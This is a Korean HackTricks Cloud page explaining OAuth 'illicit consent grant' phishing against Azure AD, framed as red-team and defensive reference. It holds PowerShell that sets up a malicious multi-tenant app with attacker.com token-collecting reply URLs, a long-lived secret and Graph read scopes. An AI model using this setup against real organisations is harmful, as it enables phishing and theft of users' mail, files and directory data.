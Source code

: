 # Az - 불법 동의 부여

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## OAuth 앱 피싱

**Azure 애플리케이션**은 **사용자 데이터**(기본 정보 및 문서 액세스, 이메일 전송 등)에 액세스하기 위한 **권한을 요청**합니다.\
**허용**되면 일반 사용자는 **"낮은 영향" 권한**에 대해서만 동의를 부여할 수 있습니다. **다른 모든 경우에는 관리자 동의가 필요**합니다.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` 및 `애플리케이션에 권한을 부여하는 권한`을 포함하는 사용자 정의 역할은 테넌트 전체 동의를 제공할 수 있습니다.

관리자 동의가 필요하지 않은 권한만이 **낮은 영향**으로 분류됩니다. 이는 기본 로그인에 필요한 권한인 openid, profile, email, User.Read 및 offline\_access입니다. **조직**이 **모든 앱에 대한 사용자 동의를 허용**하는 경우, 직원은 앱에 대해 **프로필에서 위의 정보를 읽을 수 있는 동의**를 부여할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

따라서 공격자는 **악성 앱**을 준비하고 **피싱**을 통해 사용자가 **앱을 수락하고 데이터를 도용**하도록 할 수 있습니다.

### 사용자가 동의할 수 있는지 확인

다음 PowerShell 명령은 Azure Active Directory (Azure AD)에서 사용자가 애플리케이션에 동의할 수 있는지에 대한 동의 구성을 확인하는 데 사용됩니다:
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **사용자 동의 비활성화**: 이 설정은 사용자가 애플리케이션에 권한을 부여하는 것을 금지합니다. 사용자 동의를 애플리케이션에 허용하지 않습니다.
* **검증된 배포자 또는 조직에서 앱에 동의할 수 있지만 선택한 권한에 대해서만**: 이 설정은 모든 사용자가 검증된 배포자에 의해 배포된 애플리케이션 및 자체 테넌트에 등록된 애플리케이션에만 동의할 수 있도록 허용합니다. 특정 권한에 대해서만 동의를 허용함으로써 제어 수준을 추가합니다.
* **모든 앱에 동의할 수 있음**: 이 설정은 더 허용적이며, 관리 동의가 필요하지 않는 한 모든 사용자가 어떤 권한에 대해서든지 애플리케이션에 동의할 수 있도록 허용합니다.
* **사용자 정의 앱 동의 정책**: 이 설정은 사용자 정의 정책이 적용되어 있음을 나타내며, 특정 조직 요구 사항에 맞게 조정될 수 있으며, 앱 배포자, 앱이 요청하는 권한 및 기타 요소에 기반한 제한의 조합을 포함할 수 있습니다.


## **불법 동의 부여 공격 이해**

불법 동의 부여 공격에서 공격자는 사용자들을 속여 Azure에 등록된 악성 애플리케이션에 권한을 부여하도록 유도합니다. 이는 애플리케이션이 신뢰할 수 있는 것처럼 보이도록 만들어 피해자들이 "수락" 버튼을 알지 못하게 클릭하게 만드는 것으로 이루어집니다. 결과적으로 Azure AD는 토큰을 공격자의 사이트에 발급하여 조직 계정이 필요하지 않고도 피해자의 데이터에 액세스하고 조작할 수 있게 합니다. 이는 이메일 읽기 또는 전송, 파일 액세스 등과 같은 피해자의 데이터를 읽거나 조작하는 것을 포함합니다.

## **공격 흐름 개요**

이 공격은 일반적인 회사를 대상으로 여러 단계를 거쳐 진행됩니다. 다음은 공격이 어떻게 전개될 수 있는지에 대한 예시입니다:

1. **도메인 등록 및 애플리케이션 호스팅**: 공격자는 신뢰할 수 있는 사이트와 유사한 도메인을 등록합니다. 예를 들어 "safedomainlogin.com"입니다. 이 도메인 아래에 악성 애플리케이션을 호스팅하기 위해 하위 도메인을 생성합니다(예: "companyname.safedomainlogin.com").

2. **Azure AD에서 애플리케이션 등록**: 공격자는 자신의 Azure AD 테넌트에서 Multi-Tenant 애플리케이션을 등록합니다. 이 애플리케이션은 신뢰할 수 있는 것처럼 보이기 위해 대상 회사의 이름으로 지정됩니다. 공격자는 악성 애플리케이션을 호스팅하는 하위 도메인을 가리키도록 애플리케이션의 리디렉션 URL을 구성합니다.

3. **권한 설정**: 공격자는 애플리케이션에 다양한 API 권한(`Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` 등)을 설정합니다. 사용자가 이러한 권한을 부여하면 공격자는 사용자를 대신하여 민감한 정보를 추출할 수 있게 됩니다.

4. **악성 링크 배포**: 공격자는 악성 애플리케이션의 클라이언트 ID를 포함한 링크를 작성하고 대상 사용자들과 공유함으로써 동의를 부여하도록 속입니다.

## **공격에 대한 도구 활용**

이 공격은 [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)와 같은 도구를 사용하여 수행될 수 있습니다.

### 공격 전 준비:
공격자가 피해 조직의 사용자에게 어느 정도의 액세스 권한이 있다면, 조직의 정책이 사용자가 앱을 수락할 수 있는지 확인할 수 있습니다.
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
공격을 실행하기 위해 공격자는 **Azure 테넌트**의 App 등록에서 **새로운 앱을 생성**해야 합니다. 이 앱은 다음과 같이 구성되어야 합니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`은 `Microsoft Graph`의 `Delegated permissions`에 있습니다. (애플리케이션 권한은 항상 추가 승인이 필요합니다).

* `User.ReadBasic.All`은 부여된 경우 조직의 **모든 사용자 정보를 읽을 수 있는 권한**입니다.
* 전체 테넌트 동의를 제공할 수 있는 역할은 `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` 및 `애플리케이션에 권한을 부여하는 권한`을 포함하는 사용자 정의 역할뿐입니다. 따라서 **관리자 동의가 필요한 앱**을 승인하도록 하려면 이러한 역할 중 하나를 가진 사용자를 **피싱**해야 합니다.

또한 다음 명령을 사용하여 cli를 통해 앱을 생성할 수도 있습니다:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

구성 방법에 대해 알아보려면 [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)를 확인하세요.

{% hint style="warning" %}
얻은 **액세스 토큰**은 **그래프 엔드포인트**에 대한 것이며, `User.Read` 및 `User.ReadBasic.All` (요청된 권한) 스코프를 가지게 됩니다. 다른 작업을 수행할 수는 없지만 (그러나 이러한 권한은 조직의 **모든 사용자에 대한 정보를 다운로드**하는 데 충분합니다).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

이 도구를 사용하여 이 공격을 수행할 수도 있습니다.

## 사후 침투

사용자에게 액세스 권한을 얻은 후에는 민감한 문서를 도용하거나 백도어가 있는 문서 파일을 업로드하는 등의 작업을 수행할 수 있습니다.

## 참고 자료

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
